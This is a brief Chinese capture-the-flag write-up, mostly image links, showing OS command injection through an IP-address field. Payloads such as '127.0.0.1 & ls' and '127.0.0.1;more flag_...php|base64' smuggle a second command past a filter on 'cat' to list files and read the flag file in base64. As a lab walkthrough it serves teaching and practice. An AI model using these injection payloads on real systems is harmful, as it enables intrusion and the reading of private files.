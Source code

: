 ![1687099269351](image/过滤cat/1687099269351.png)


```sql
127.0.0.1 & ls
//首先找出文件名
```

![1687098780937](image/过滤cat/1687098780937.png)

```sql
多条显示命令都可以
127.0.0.1;more flag_153131129926766.php|base64
127.0.0.1;less flag_153131129926766.php|base64
//查询flag.php文件里的内容
```

![1687098803976](image/过滤cat/1687098803976.png)

![1687098814155](image/过滤cat/1687098814155.png)

得出base64加密后的内容，使用base64解码工具得出flag
